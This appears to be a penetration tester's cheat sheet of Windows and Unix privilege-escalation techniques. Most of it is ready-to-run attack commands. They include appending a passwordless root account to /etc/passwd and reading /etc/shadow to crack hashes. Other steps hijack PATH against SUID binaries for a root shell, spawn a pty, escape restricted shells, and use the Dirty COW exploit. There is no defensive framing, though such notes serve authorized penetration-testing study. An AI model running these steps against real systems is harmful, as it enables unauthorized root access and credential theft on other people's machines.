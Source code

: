 ```enum4linux -a <ip>```
Are there any paths that are not enclosed in `“ ”`?  
If so, https://pentest.blog/windows-privilege-escalation-methods-for-pentesters/
- Are there any programs that are running as root but can be edited?  
http://www.fuzzysecurity.com/tutorials/16.html (- Δt for t7 to t10 - Roll Up Your Sleeves - you might have to remove the dependencies)
- Windows server 2003?  
churrasco.bin: https://simonuvarov.com/privilege-escalation-via-token-kidnapping/ 
- Compiling python exploits for Windows:
	- Use pyinstaller:  
	```pip install pyinstaller```  
	```pyinstaller <exploit.py>```
	- It will generate a folder called build in the same directory
	- Transfer all the files within the build folder to the target machine and execute the exe
	- ENSURE that the version of python/pyinstaller being used matches the version required by the script
	Note: This method can also be used to compile python exploits to run on linux machines without a compatible python installation

## PRIVILEGE ESCALATION: UNIX
- Linuxprivchecker:  
https://github.com/sleventyeleven/linuxprivchecker/blob/master/linuxprivchecker.py
- `cat /etc/shadow`  
Can the passwords be read/bruteforced? If yes, use hashcat!
- `ls -al /etc/passwd`  
Is it possible to write to this file? If so, overwrite root and set an empty password using the following command:  
`echo “test::0:0::/home/jc:/bin/sh” >> /etc/passwd`
- `id`  
is id > 1000?  
Try sudo su - you might be in the sudoers file!
- What are the processes running?  
```ps -aux```
- Checks for files set with the suid bit - programs that run as root but can be started by anyone. The following commands will lead to privilege escalation:
	- Find the files with the suid bit:  
	```find / -perm -g=s -o -perm -u=s -type f 2>/dev/null```
	- Use `strings <program name>` to see what the program did
	- Check for commands running without full file path [scp, ]
	- Add `tmp` to `PATH`, create a file with `bash/sh` and call command  
	`export PATH=”/tmp”:$PATH (adds it to the start so linux checks tmp first)`
	- in `/tmp`   
	`echo “/bin/bash” > scp` (or /bin/sh)  
	(here scp is the command not being run with full path)
	- `chmod +x scp`
	- Run the program: `<program name>`  
	(It will find your version of “scp” first, and run it as root)
- Can’t write to /tmp? Use the following command to find writable directories in the filesystem
```find / -writable -type d 2>/dev/null```
- Getting the error “su must be run from terminal” when trying to run sudo su? Run the following command, and then call `python asdf.py` to get a terminal  
```echo "import pty; pty.spawn('/bin/bash')" > asdf.```
- If your unix distribution is BSD- then the commands are not the same as linux
	- fetch is the equivalent of wget 
- DIRTYCOW
	- If you see linux version > 2.6.22 and < 3.9, chances are, it might be vulnerable to dirtycow. Best working exploit: https://www.exploit-db.com/exploits/40839 
	- You might have to close and reopen shell to get it to work tho. Then you can su firefart
- Limited shells
	- Lshell: breakout by using `echo && bash` or `echo || bash`  
	(if bash doesnt work, try sh)
	- If the above fails try those in the link: https://netsec.ws/?p=337 
	- Rbash: https://speakerdeck.com/knaps/escape-from-shellcatraz-breaking-out-of-restricted-unix-shells 
```